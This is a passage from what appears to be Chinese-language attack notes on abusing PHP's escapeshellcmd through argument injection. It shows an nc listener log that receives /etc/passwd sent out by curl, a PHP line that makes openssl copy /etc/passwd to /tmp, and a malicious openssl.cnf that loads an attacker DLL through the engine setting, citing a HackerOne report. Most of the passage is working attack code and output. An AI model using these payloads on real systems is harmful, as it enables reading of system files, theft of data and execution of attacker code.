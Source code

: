 服务端开个nc接收即可
```shell
root@kuroneko:/tmp/temp# nc -lvvp 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from [127.0.0.1] port 6666 [tcp/*] accepted (family 2, sport 37160)
POST / HTTP/1.1
Host: 127.0.0.1:6666
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 2069
Expect: 100-continue
Content-Type: multipart/form-data; boundary=------------------------b831fd9594c6de88

--------------------------b831fd9594c6de88
Content-Disposition: form-data; name="password"; filename="passwd"
Content-Type: application/octet-stream

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
......

```



### openssl

读取`/etc/passwd`文件并输出到`/tmp/xxx`

```php
$url = 'enc -in /etc/passwd -out /tmp/xxx';
system(escapeshellcmd('openssl '.$url));
```

openssl配置文件可控时，可调用恶意so或dll:
[https://hackerone.com/reports/622170](https://hackerone.com/reports/622170)

openssl.cnf

```shell
# Malicious openssl.cnf
openssl_conf = openssl_init
[openssl_init]
engines = engine_section

[engine_section]
cmd = cmd_section

[cmd_section]
engine_id = cmd
dynamic_path = c:\\usr\\local\\ssl\\calc.dll
init = 0
```
